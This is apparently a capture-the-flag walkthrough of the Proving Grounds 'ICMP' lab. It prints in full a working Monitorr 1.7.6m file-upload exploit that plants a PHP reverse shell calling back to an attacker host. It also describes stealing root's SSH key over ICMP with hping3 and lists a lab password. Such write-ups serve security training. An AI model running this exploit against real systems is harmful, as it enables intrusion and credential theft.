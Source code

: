 # ICMP | Aug 26, 2022

## Background

> Feel free to ping me 

- Author: Fortunato 'foxlox' Lodari

- Released on: Aug 25, 2022

- Difficulty: Intermediate

- Overall difficulty for me: Easy
    - Initial foothold: Very easy
    - Privilege Escalation: Medium

# Service Enumeration

**Rustscan Result:**

As usual, scan the machine for open ports via `rustscan`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a1.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a2.png)

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.9p1 Debian
80                | Apache httpd 2.4.38

## HTTP on Port 80

Always enumerate HTTP first, as it has the largest attack vectors.

**http://192.168.129.218/mon/:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a3.png)

Found `Monitorr 1.7.6m`.

**Searchsploit Result:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a4.png)

Found 2 exploits!

# Initial Foothold

**Remote Code Execution (`48980.py`):**

- We can mirror the exploit to see what is it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a5.png)

**48980.py:**
```py
import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```

The exploit doing a POST request in `/assets/php/upload.php`, and trying to upload a PHP reverse shell called `she_ll.php`. If uploaded, it'll trigger the PHP reverse shell in `/assets/data/usrimg/she_ll.php`.

**Let's setup a `nc` listener and run the exploit!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a7.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a8.png)

I'm `www-data`!

**local.txt:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a9.png)

**Stable Shell via `socat`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a10.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a11.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a12.png)

# Privilege Escalation

## www-data to fox

Something interesting in `fox`'s home directory?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a13.png)

Also, I found a misconfigured file in `/root`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a14.png)

It's **world-readable**!

**Normal `/root` permission:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a15.png)

Let's check it out!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a16.png)

Can I read his private SSH key?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a17.png)

Nope. Let's go back to `fox`'s home directory.

In his home directory, we also can see there is a directory called `devel`. Plus the `reminder` text file, makes me feel like `crypt.php` is inside the `devel` directory:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a18.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a19.png)

Maybe the `BUHNIJMONIBUVCYTTYVGBUHJNI` is user `fox`'s password??

- Username:fox
- Password:BUHNIJMONIBUVCYTTYVGBUHJNI

Let's **Switch User** to `fox`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a20.png)

And we're `fox`!

## fox to root

**Sudo Permission:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a21.png)

As we can see, there are 2 commands we can run as root, and the first command could escalate our privilege to root, as it uses a wildcard.

Since we must use the ICMP mode, we can't spawn a shell.

BUT, according to a [blog back in 2008](https://www.codebelay.com/blog/2008/10/09/sending-files-with-hping3/), we can use `hping3` to transfer files to other machine. We can try to send root's private SSH key that we've just found.

**To do so, we'll:**

- Setup a `hping3` listener on the **first SSH session**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a22.png)

- Transfer root's private SSH key on the **second SSH session**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a23.png)

- Captured the private SSH key on the **first SSH session**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a24.png)

Let's copy and paste it to our attacker machine, and `ssh` into root:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a25.png)

We're root! :D

# Rooted

**proof.txt:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/ICMP/images/a26.png)

# Conclusion

What we've learned:

1. Remote Code Execution in Monitorr 1.7.6m
2. Privilege Escalation via Found Credentials From `crypt.php` in `/home/fox/devel/`
3. Privilege Escalation via Misconfigured `sudo` Permission to `hping3`